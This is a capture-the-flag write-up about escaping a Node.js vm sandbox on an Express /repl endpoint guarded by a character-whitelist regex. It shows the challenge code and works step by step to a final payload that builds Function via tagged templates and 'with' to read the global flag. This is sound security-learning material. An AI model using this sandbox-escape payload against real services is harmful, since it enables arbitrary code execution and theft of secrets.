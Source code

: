 ## Owner:

> CaptainFreak

## Challenge Description

```
const express = require("express")
const fs = require("fs")
const vm = require("vm")
const watchdog = require("./watchdog");

global.flag = fs.readFileSync("flag").toString()
const source = fs.readFileSync(__filename).toString()
const help = "There is no help on the way."

const app = express()
const port = 3000

app.use(express.json())
app.use('/', express.static('public'))

app.post('/repl', (req, res) => {
    let sandbox = vm.createContext({par: (v => `(${v})`), source, help})
    let validInput = /^[a-zA-Z0-9 ${}`]+$/g
    
    let command = req.body['cmd']
    
    console.log(`${req.ip}> ${command}`)

    let response;

    try {
        if(validInput.test(command))
        {    
            let watch = watchdog.schedule()
            try {
                response = vm.runInContext(command, sandbox, {
                    timeout: 300,
                    displayErrors: false
                });
            } finally {
                watchdog.stop(watch)
            }
        } else
            throw new Error("Invalid input.")
    } catch(ex)
    {
        response = ex.toString()
    }

    console.log(`${req.ip}< ${response}`)
    res.send(JSON.stringify({"response": response}))
})

console.log(`Listening on :${port}...`)
app.listen(port, '0.0.0.0')
```

#### Solved?

 - No

#### Tried:

Found a way to escape NodeJs vm: https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af. 

Got idea that We can use par.constructor("return flag"). This will eval "return flag" in the context of invoking/parent code as the constructor belongs to that space and will return a function whose body is that string.

So, par.constructor("return flag")() will return flag from parent codes/out of VMs context.

This can be invoked using par.constructor\`return flag\`\`\`

Hence Ended up at payload {"cmd":"par.constructor\`return flag\`\`\`"}. 

Got stuck by one dot. I succesfully used tag notation of function to bypass use of "()" that is prevented by regex check as only speacial chars allowed are alphanumeric, $, {, }, \` 

Could not go further than this. 


#### Solutions:

The challenge was to exlpoit Escame NodeJs vm as well as a regex filter /^[a-zA-Z0-9 ${}\`]+$/g. which disallowes us to use the very useful dot char to access object elements. I tried to find the other way to access properties without using "." but I guess I failed at googling.

Steps to solve the challenge:

1. So we do have a way to access properties without dot.
2. Object.property() in JS is equavalent to with(Object)property()
3. Example: `console.log("flag")` is totally equal to `with(console)log("flag")`
4. But you will say hey we cant use "()" due to regex and this can't even be bypassed using \` as "with" is a JS keyword like "if" and not fucntion :).
5. And then `par` function described in our vm context comes in for the rescue.
6. par(value) function returns "(\`${value}\`)" === (value), where value is executed in it and value is returned with enclosed in "()" which is very convenient for us :).
7. So to make `with(console)log("flag")` out of using "par" we can do "with\`${par\`console\`}log${par\`"flag"\`}\` 

8. Hence, par.constructor("return flag")() is equal to with(par)constructor("return flag")()
9. which is equal to with(par)constructor\`return flag\`\`\` but we need to remove (), we will use par() given
10. Which then can be made \`with${par\`par\`}constructor\`return flag\`\`\`\`
11. Above thing will make it a string which need to be evaled. eval\`\` wont work, will look into this, 
12. Another way to. execute code `Function`.
13. Function(), which interprests last arg as body of function to make
14. Function\`code\` will return a func with with given code body. Function\`code\`\`\` will execute that function.
15. Lets use this, "Function\`a${\`with${par\`constructor\`}return constructor${par\`a\`}\`}\`\`return flag\`\`\`."
And boom !

## TLDR

![](https://i.ibb.co/3MjF0SY/Untitled-Diagram-1.png)

The payload is equivalent to:

```
Function(a, "with(par)return constructor(a)")("return flag")()
```

Really Loved this challenge, Another lesson that in good ctfs, everything is usable.

References:
1. https://twitter.com/po6ix/status/1239169901991849989 - Simpler and crisp.
2. https://st98.github.io/diary/posts/2020-03-15-confidence-2020-ctf.html
This guy even used the help string - Good Read. Kinda overkill.
3. https://twitter.com/po6ix/status/1239167341885149185







